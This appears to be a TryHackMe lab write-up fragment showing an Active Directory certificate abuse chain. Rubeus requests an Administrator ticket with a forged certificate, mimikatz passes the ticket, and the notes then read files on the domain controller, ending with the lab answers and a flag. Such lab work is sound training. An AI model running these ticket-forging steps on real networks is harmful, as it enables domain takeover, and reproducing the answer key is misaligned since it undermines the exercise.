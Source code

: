 ```powershell
mmc.exe

# Set password for privKey export - I forgot it the first time I tried xD

 C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:.\f4u.pfx /password:f4upass /outfile:f4u.kirbi /domain:za.tryhackme.loc /dc:10.200.83.101

C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

```plain
# mimikats

privilege::debug
kerberos::ptt f4u.kirbi
misc::cmd
```

```cmd
explorer.exe

# OR

type \\THMDC.za.tryhackme.loc\C$\dns_entries.csv
type \\THMDC.za.tryhackme.loc\C$\Users\Administrator\Desktop\flag5.txt

```

```plain
\\THMDC.za.tryhackme.loc\C$`
```

```plain
# dns_entries.csv
HostName,IPEnd
example,"200"
THMSERVER1,"201"
THMSERVER2,"202"
THMWRK1,"248"
THMWRK2,"249"
THMDC,"101"
"distributor","201"
za.tryhackme.loc,"101"
```

```plain
\\THMDC.za.tryhackme.loc\C$\Users\Administrator\Desktop
```

Answer 1:
> Certificate signing request

Answer 2:
> Active Directory Certificate Services

Answer 3:
>THM{AD.Certs.Can.Get.You.DA}
